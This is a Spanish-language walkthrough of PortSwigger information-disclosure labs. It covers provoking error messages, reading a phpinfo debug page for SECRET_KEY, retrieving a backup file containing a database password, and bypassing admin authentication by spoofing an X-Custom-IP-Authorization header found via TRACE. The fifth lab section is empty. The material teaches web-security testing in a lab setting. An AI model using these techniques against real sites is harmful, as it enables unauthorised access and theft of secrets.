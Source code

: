 ```yaml
---
layout: default
title: "Information disclosure vulnerabilities - PortSwigger"
permalink: /information-disclosure-ps/
---
```


# Information disclosure vulnerabilities - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/information-disclosure](https://portswigger.net/web-security/information-disclosure)

## Índice



## 1. Lab: Information disclosure in error messages

```
Los mensajes de error detallados de este laboratorio revelan que está utilizando una versión vulnerable de un marco de trabajo de terceros. Para resolver el laboratorio, obtenga y envíe el número de versión de este marco.
```

Para ello vamos a un post cualquiera, como por ejemplo el siguiente:

```bash
https://ac021f2c1ef6afe380996b3f004c0037.web-security-academy.net/product?productId=1
```

Y generamos un error como borrar el valor del parametro **productId**.

```bash
https://ac021f2c1ef6afe380996b3f004c0037.web-security-academy.net/product?productId='
```

 Y generamos el siguiente error.

```bash
Internal Server Error: java.lang.NumberFormatException: For input string: "'"
	at java.base/java.lang.NumberFormatException.forInputString(NumberFormatException.java:65)
	at java.base/java.lang.Integer.parseInt(Integer.java:638)
	at java.base/java.lang.Integer.parseInt(Integer.java:770)
	at lab.data.productcatalog.catalog.DefaultProductCatalogDataSource.getProduct(DefaultProductCatalogDataSource.java:73)
	at lab.display.productcatalog.filter.NoFilterStrategy.getProduct(NoFilterStrategy.java:47)
	at lab.display.productcatalog.page.product.SimpleProductStrategy.handle(SimpleProductStrategy.java:67)
	at lab.display.productcatalog.page.SimpleProductPageStrategy.lambda$handleSubRequest$0(SimpleProductPageStrategy.java:82)
	at net.portswigger.util.Unchecked.lambda$null$3(Unchecked.java:46)
	at net.portswigger.util.Unchecked.uncheck(Unchecked.java:73)
	at net.portswigger.util.Unchecked.lambda$uncheckedFunction$4(Unchecked.java:46)
	at java.base/java.util.Optional.map(Optional.java:265)
	at lab.display.productcatalog.page.SimpleProductPageStrategy.handleSubRequest(SimpleProductPageStrategy.java:77)
	at lab.server.vulnerable.backend.SubHandler.handle(SubHandler.java:41)
	at lab.display.productcatalog.SimpleProductCatalogStrategy.handle(SimpleProductCatalogStrategy.java:75)
	at lab.server.vulnerable.backend.Backend.applyChain(Backend.java:344)
	at lab.server.vulnerable.backend.Backend.lambda$handler$1(Backend.java:289)
	at net.portswigger.util.Unchecked.lambda$null$3(Unchecked.java:46)
	at net.portswigger.util.Unchecked.uncheck(Unchecked.java:73)
	at net.portswigger.util.Unchecked.lambda$uncheckedFunction$4(Unchecked.java:46)
	at java.base/java.util.Optional.flatMap(Optional.java:294)
	at lab.server.vulnerable.backend.Backend.handler(Backend.java:251)
	at lab.server.vulnerable.backend.Backend.handle(Backend.java:239)
	at lab.server.vulnerable.frontend.NoFrontend.handle(NoFrontend.java:37)
	at lab.server.vulnerable.VulnerableApp.handle(VulnerableApp.java:111)
	at lab.server.LabHosts.handle(LabHosts.java:81)
	at lab.server.LabApp.handle(LabApp.java:167)
	at lab.server.LabApp.handle(LabApp.java:51)
	at net.portswigger.http.server.HttpServer$Connection.handleRequest(HttpServer.java:831)
	at net.portswigger.http.server.HttpServer$Connection.runHttp(HttpServer.java:817)
	at net.portswigger.http.server.HttpServer$Connection.run(HttpServer.java:756)
	at java.base/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1128)
	at java.base/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:628)
	at java.base/java.lang.Thread.run(Thread.java:834)

Apache Struts 2 2.3.31
```

Siendo la solucion:

```bash
Apache Struts 2 2.3.31
```

Enviamos la respuesta y completamos el laboratorio.

![](img1.png)

## 2. Lab: Information disclosure on debug page

```
Este laboratorio contiene una página de depuración que revela información confidencial sobre la aplicación. Para resolver el laboratorio, obtenga y envíe la variable de entorno SECRET_KEY.
```

Revisando el codigo fuente del laboratorio nos encontramos con lo siguiente:

```html
                        <div>
                            <img src="/image/content/productcatalog/products/1.jpg">
                            <h3>Eggtastic, Fun, Food Eggcessories</h3>
                            <img src="/resources/images/rating4.png">
                            $27.60
                            <a class="button" href="/product?productId=20">View details</a>
                        </div>
                    </section>
                    <!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
                </div>
            </section>
```

Existe una ruta en donde nos podemos topar con un archivo phpinfo.php, que tiene el nombre de **Debug**. Entonces accedemos a la ruta

```
https://ace81f711f47a55d803d2973000a00a8.web-security-academy.net/cgi-bin/phpinfo.php
```

Y ahi dentro buscamos entre toda la informacion interesante el nombre de la variable de entorno **SECRET_KEY**.

```
SECRET_KEY	jkz8p8xls3tgv9z1l5ztffdsgpvv173y
```

Entonces enviamos la solucion y completamos el laboratorio.

![](img2.png)

## 3. Lab: Source code disclosure via backup files

```
Este laboratorio filtra su código fuente a través de archivos de respaldo en un directorio oculto. Para resolver el laboratorio, identifique y envíe la contraseña de la base de datos, que está codificada en el código fuente filtrado.
```

Buscamos directorios posibles, y nos topamos con que el directorio **backup** existe, y dentro de el encontramos un archivo llamado **ProductTemplate.java.bak** , la ruta sería.

```
https://ac371fb21ec0935c80fa104d00c30038.web-security-academy.net/backup/ProductTemplate.java.bak
```

Luego leyendo el codigo del archivo nos encontramos con lo siguiente.

```java
        ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "tdutsjroyh43uwjtfq0gqoohgpd4hynr"
        ).withAutoCommit();
```

Entonces, concluimos que la contraseña de la base de datos es:

```
tdutsjroyh43uwjtfq0gqoohgpd4hynr
```

Entonces, enviamos la solucion y completamos el laboratorio.

![](img3.png)

## 4. Lab: Authentication bypass via information disclosure

```
La interfaz de administración de este laboratorio tiene una vulnerabilidad de omisión de autenticación, pero no es práctico explotarla sin el conocimiento de un encabezado HTTP personalizado utilizado por el front-end.

Para resolver el laboratorio, obtenga el nombre del encabezado y luego utilícelo para omitir la autenticación del laboratorio. Accede a la interfaz de administración y elimina la cuenta de Carlos.

Puede acceder a su propia cuenta con las siguientes credenciales: wiener:peter
```

Accedemos a la ruta **/admin** y nos encontramos con el siguiente mensaje:

![](img4.png)

Entonces, lo que haremos será enviar el paquete **GET** a el repeater y cambiar el metodo **GET** por el metodo **TRACE**.

![](img5.png)

Entre todos los headers que nos devuelve la consulta **TRACE** nos topamos con uno interesante,

```
X-Custom-IP-Authorization: 179.6.192.124
```

Por lo cual en la consulta **GET** anterior, enviaremos la misma solicitud pero enviando este header de **HTTP** cambiando el valor de la IP por 127.0.0.1, que vendría simular el acceso de un usuario de manera local.

![](img6.png)

Como podemos ver, esto ah funcionado, entonces ahora interceptaremos los paquetes al cargar el panel de administracion desde el navegador agregando el header correcto el cual es:

```
X-Custom-IP-Authorization: 127.0.0.1
```

![](img7.png)

Y podemos ver que visualizamos el panel de administracion,

![](img8.png)

Y eliminamos el usuario carlos y completamos el laboratorio.

**NOTA: Para todos los paquetes interceptados agregar el header antes expuesto.**

![](img9.png)

## 5. Lab: Information disclosure in version control history





